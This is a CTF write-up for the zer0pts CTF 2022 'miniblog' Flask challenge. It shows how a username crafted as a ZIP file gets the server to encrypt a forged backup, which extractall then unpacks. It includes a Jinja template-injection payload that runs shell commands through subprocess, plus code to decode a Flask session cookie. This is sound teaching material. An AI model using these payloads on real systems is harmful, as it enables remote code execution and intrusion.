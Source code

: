 zer0pts CTF - Miniblog WriteUp
==============================

## Introduction

The `miniblog` series was a nice pair of web challenges during the [zer0pts CTF 2022](https://2022.ctf.zer0pts.com/).
We are given a `flask` web application, though detailed configuration of the server was not made public.

Let's step through the core pieces really quickly:
At the highest level, the given application renders posts created by the user:
```python
@app.route('/post/<title>', methods=['GET'])
def get_post(title):
    db = get_database()
    if db is None:
        return flask.redirect('/login')

    err, post = db.read(title)
    if err:
        return flask.abort(404, err)

    return flask.render_template_string(post['content'],
                                        title=post['title'],
                                        author=post['author'],
                                        date=post['date'])
```

We can create arbitrary users using the `/api/login` endpoint:
```python
@app.route('/api/login', methods=['POST'])
def api_login():
    try:
        data = json.loads(flask.request.data)
        assert isinstance(data['username'], str)
        assert isinstance(data['password'], str)
    except:
        return flask.abort(400, "Invalid request")

    flask.session['username'] = data['username']
    flask.session['passhash'] = hashlib.md5(data['password'].encode()).hexdigest()
    flask.session['workdir'] = os.urandom(16).hex()
    return flask.jsonify({'result': 'OK'})
```

Additionally the app supports the creation of backups.
Those backups will be encrypted ZIP-files containing all posts created by the user.
The encryption will be performed using [AES in CFB mode](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Cipher_Feedback_%28CFB%29):
```python
# snip ..
    def export_posts(self, username, passhash):
        """Export all blog posts with encryption and signature"""
        buf = io.BytesIO()
        with zipfile.ZipFile(buf, 'a', zipfile.ZIP_DEFLATED) as z:
            # Archive blog posts
            for path in glob.glob(f'{self.workdir}/*.json'):
                z.write(path)
            # Add signature so that anyone else cannot import this backup
            z.comment = f'SIGNATURE:{username}:{passhash}'.encode()

        # Encrypt archive so that anyone else cannot read the contents
        buf.seek(0)
        iv = os.urandom(16)
        cipher = AES.new(app.encryption_key, AES.MODE_CFB, iv)
        encbuf = iv + cipher.encrypt(buf.read())
        return None, base64.b64encode(encbuf).decode()

    def import_posts(self, b64encbuf, username, passhash):
        """Import blog posts from backup file"""
        encbuf = base64.b64decode(b64encbuf)
        cipher = AES.new(app.encryption_key, AES.MODE_CFB, encbuf[:16])
        buf = io.BytesIO(cipher.decrypt(encbuf[16:]))

        try:
            with zipfile.ZipFile(buf, 'r', zipfile.ZIP_DEFLATED) as z:
                # Check signature
                if z.comment != f'SIGNATURE:{username}:{passhash}'.encode():
                    return 'This is not your database'
                # Extract archive
                z.extractall()
        except:
            return 'The database is broken'

        return None
```

## Finding vulnerable pieces

Starting with view a post using the `/post/<title>` endpoint its content gets rendered with Jinja, thus if we were able to fully control `post["content"]` we could perform server side template injection.
The input if sanitized well though when creating a new post:

```python
    def add(self, title, author, content):
        """Add new blog post"""
        # Validate title and content
        if len(title) == 0: return 'Title is emptry', None
        if len(title) > 64: return 'Title is too long', None
        if len(content) == 0     : return 'HTML is empty', None
        if len(content) > 1024*64: return 'HTML is too long', None
        if '{%' in content:
            return 'The pattern "{%" is forbidden', None

        for m in re.finditer(r"{{", content):
            p = m.start()
            if not (content[p:p+len('{{title}}')] == '{{title}}' or \
                    content[p:p+len('{{author}}')] == '{{author}}' or \
                    content[p:p+len('{{date}}')] == '{{date}}'):
                return 'You can only use "{{title}}", "{{author}}", and "{{date}}"', None

        # Save the blog post
        now = datetime.datetime.now().strftime("%Y/%m/%d %H:%M:%S")
        post_id = Database.to_snake(title)
        data = {
            'title': title,
            'id': post_id,
            'date': now,
            'author': author,
            'content': content
        }
        with open(f'{self.workdir}/{post_id}.json', "w") as f:
            json.dump(data, f)

        return None, post_id
```

Another thing that sticks out is the use of the insecure API `ZipFile.extractall()` which may create arbitrary files on the system.
However since archives are encrypted, we cannot simply create a fake backup to our liking.

Or can we?

Notice how the `export_posts()` function adds a *signature* to the archive by editing the comment.
Looking through the high level description of the [Zip File Format](https://en.wikipedia.org/wiki/ZIP_%28file_format%29), we will find that the comment is simply appended in plain text at the end of the central directory header.
Since this signature contains our username, we can make the server encrypt data that we fully control!
Therefor an idea to that would be creating a username which is actually a valid ZIP-file as the `export_posts()` function would create (without encryption, as the server will do this for us :)
The only limitation we have, is the fact that the content has to be a valid UTF-8 string, as this is the default encoding used.

I created a few archives and checked which fields impose a problem. 
First thing I noticed is, that we actually do not need to use the DEFLATE option, we can simply use STORE, making things a lot easier.
The flag for extraction in `import_posts()` is luckily ignored silently.

Beside that, the fields that stick out are the CRC32 checksum, the time of creation and the file permissions.
In order to get the checksum into a sane range, bruteforce is a decent choice. 
The time of creation can be anything really.
A good choice for file permissions is `044` as this is valid ASCII and reading is sufficient for us.

I created the following script to create the ZIP file content:
```python
import json
import string
import struct
import random
import zlib
import unittest.mock as mock

WORKDIR = "a" * 16

def p32(i):
    return struct.pack("<I", i)

content = {
    "title": "foobar",
    "id": "foobar",
    "date": "2022/03/03 12:12:12",
    "author": "fakeauthor",
    "content": "{{ request.application.__globals__.__builtins__.__import__('subprocess').check_output('ls',shell=True) }}"
}

while True:
    pad = random.choices(string.printable, k=4)
    pad = "".join(pad)

    content2 = content.copy()
    content2["content"] += pad

    checksum = p32(zlib.crc32(json.dumps(content2).encode())) # 4 bytes CRC32
    try:
        checksum.decode()
    except UnicodeDecodeError:
        continue
    else:
        content = content2
        break

os.makedirs(WORKDIR, exist_ok=True)
with open(f"{WORKDIR}/foobar.json", "w") as fout:
    json.dump(content, fout)
os.chmod(f"{WORKDIR}/foobar.json", 0o044)

buf = io.BytesIO()
username = "a" * 12
passhash = "47bce5c74f589f4867dbd57e9ca9f808" # aaa

def fake_localtime(*args):
    return [1980, 0, 0, 0, 0, 0, 0, 0, 0]

with mock.patch("zipfile.time.localtime", new=fake_localtime):
    with zipfile.ZipFile(buf, 'a', zipfile.ZIP_STORED) as z:
        # Archive blog posts
        z.write(f"{WORKDIR}/foobar.json")
        z.comment = f'SIGNATURE:{username}:{passhash}'.encode()

buf.seek(0)
blob = buf.read()

print(blob.decode())
```

We can use the created ZIP file as a new username.
When we export this users posts, we can slice the encrypted output and extract the encrypted version of the archive.
After that, the user `aaaaaaaaaaaa` will be able to import it (with password `aaa`)

You may have noticed, that we assumed to know the `WORKDIR` for user `aaaaaaaaaaaa`.
Right now this is not the case as it is generated when the user is created and stored in the session cookie.
At this point I was chasing red herrings because I assumed that the cookie would be encrypted.
Eventually I realized that this is not the case afterall ( *facepalm* ).

To decode the token we can use the libraries flask is using for that purpose:
```python
import hashlib

from itsdangerous import URLSafeTimedSerializer
from flask.sessions import TaggedJSONSerializer

signer_kwargs = {
    'key_derivation': 'hmac',
    'digest_method': hashlib.sha1
}
serializer = URLSafeTimedSerializer(
    b'',
    salt='cookie-session',
    serializer=TaggedJSONSerializer(),
    signer_kwargs=signer_kwargs
)

print(serializer.loads_unsafe(".eJw9yjEOwjAMQNG7eO6Qgp3Y3MaxHRUhCkqEGBB3b6b-8en_4K1jbDo2uAGWakFWsBFLQ87Fq1MJMZXGiWGBz4i-6zPmrWfTv6_-8HufnC-JIgeJVlvROKgiJUu5ObLLFf4HK2wi_Q.Yjx9Cw._s9bYjROsODfSKWXs91aD6QUxBU"))
```

Now everything left to do is chaining the steps together ;)


